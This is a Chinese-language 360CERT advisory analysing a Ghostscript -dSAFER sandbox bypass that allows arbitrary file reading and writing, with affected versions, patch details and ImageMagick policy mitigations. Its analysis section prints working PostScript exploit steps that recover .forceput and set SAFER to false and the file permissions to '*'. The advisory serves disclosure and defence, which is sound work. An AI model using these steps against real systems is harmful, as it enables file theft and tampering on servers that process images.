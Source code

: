 ```yaml
---
id: 3329547e2d1df0fcadc5edbb0536cd77
title: ghostscript任意文件读写漏洞预警分析
tags: 
  - 安全资讯
  - 360CERT
---
```


# ghostscript任意文件读写漏洞预警分析

0x00 漏洞背景
---------


10 月 9号，Tavis Ormandy 通过公开邮件列表（hxxps://bugs.chromium[.]org/p/project-zero/issues/detail?id=1682）
，再次指出 ghostscript 的安全沙箱可以被绕过，通过构造恶意的图片内容，可造成任意文件读写。


ghostscript应用广泛，ImageMagick、python-matplotlib、libmagick 等图像处理应用均有引用。


在ghostscript中由于以往的安全事件，针对安全问题gs官方采用增加参数-dSAFER来开启安全沙箱，此次Taviso发现通过特殊的命令组使得`.forceput`留存于stack
，通过再注册该命令进行`forceput`命令的利用，引发任意读写漏洞。


0x01 漏洞影响
---------


version <= 9.26(702f6982b63fca353d9106d2dbb6bb21f826c2e6) 之前的版本


官方已给出缓解措施


<http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=a54c9e61e7d0>


<http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=a6807394bd94>


但尚无release版本发布


漏洞导致所有引用ghostscript的上游应用受到影响。 常见应用如下：


* imagemagick
* libmagick
* graphicsmagick
* gimp
* python-matplotlib
* texlive-core
* texmacs
* latex2html
* latex2rtf


等


0x02 漏洞分析
---------



```
<dict> <key> <value> .forceput -
Equivalent to put, but works even if dict is not writable, 
and (if dict is systemdict or the current save level is 0) 
even if dict is in global VM and key and/or value is in local VM. 
This operator should be used only initialization code, 
and only in executeonly procedures: it must not be accessible after initialization.

```
官方对`.forceput`的使用介绍，能够强制更新dict中的值。


这次的漏洞主要原因也就是在触发错误的时候由于构造出`.forceput`留存在栈中，
然后被注册成命令`forceput`进而对`systemdict`进行修改。
最终达到bypass safer以及开启文件读写权限等操作。


核心过程分析
首先利用如下命令访问 `switch_to_normal_marking_ops`



```
/pdfopdict null def

GS_PDF_ProcSet /switch_to_normal_marking_ops get stopped

```
触发异常后的栈情况


![alt](https://p403.ssl.qhimgs4.com/t01d8df45a8830275df.png)

利用如下命令将.forceput 注册成forceput



```
/forceput $error /command get def

```
然后即可通过如下正常命令对systemdict进行修改



```
systemdict /SAFER false forceput
systemdict /userparams get /PermitFileControl [(*)] forceput
systemdict /userparams get /PermitFileWriting [(*)] forceput
systemdict /userparams get /PermitFileReading [(*)] forceput

```

```
commit a54c9e61e7d02bbc620bcba9b1c208462a876afb (HEAD)
Author: Chris Liddell <chris.liddell@artifex.com>
Date:   Sat Sep 29 15:34:55 2018 +0100
Bug 699816: Improve hiding of security critical custom operators

    Make procedures that use .forceput/.forcedef/.forceundef into operators.

    The result of this is that errors get reported against the "top" operator,
    rather than the "called" operator within the procedure.

    For example:
    /myproc
    {
      myop
    } bind def

    If 'myop' throws an error, the error handler will be passed the 'myop'
    operator. Promoting 'myproc' to a operator means the error handler will be
    passed 'myproc'.

```
在这次更新中对该问题进行了修复


![alt](https://p403.ssl.qhimgs4.com/t01cefe1ef91ce6a18e.png)


在注册的时候都以odef注册成特殊的运算符使其无法被利用


0x03 利用效果
---------


在9.26(702f6982b63fca353d9106d2dbb6bb21f826c2e6)依旧work


![alt](https://p403.ssl.qhimgs4.com/t01985868a19a42034d.png)


![alt](https://p403.ssl.qhimgs4.com/t0184162354e54746c5.png)


php ImageMagick demo


![alt](https://p403.ssl.qhimgs4.com/t01482c9713f2fa819f.png)


![alt](https://p403.ssl.qhimgs4.com/t01c3cdaa6878316031.png)


0x04 缓解措施
---------


目前官方已给出缓解措施，建议更新ghostscript。至少需要到(a54c9e61e7d02bbc620bcba9b1c208462a876afb)之后的版本


若无法更新可先尝试禁用使用gs解析ps文件


使用ImageMagick，建议修改policy文件（默认位置：`/etc/ImageMagick/policy.xml`），在 `<policymap>` 中加入以下 


`<policy>`（即禁用 PS、EPS、PDF、XPS coders）：



```
<policymap>
<policy domain="coder" rights="none" pattern="PS" />
<policy domain="coder" rights="none" pattern="EPS" />
<policy domain="coder" rights="none" pattern="PDF" />
<policy domain="coder" rights="none" pattern="XPS" />
</policymap>

```
0x05 时间线
--------


**2018-09-28** taviso提交漏洞


**2018-10-09** 漏洞信息公开


**2018-10-10** 360CERT对漏洞分析跟进，发布预警分析


0x06 参考链接
---------


1. [邮件列表](https://bugs.chromium.org/p/project-zero/issues/detail?id=1682)
2. [gs官方文档](https://www.ghostscript.com/doc/9.25/Language.htm)
3. [patch diff详情](http://git.ghostscript.com/?p=ghostpdl.git;a=commitdiff;h=a54c9e61e7d0)


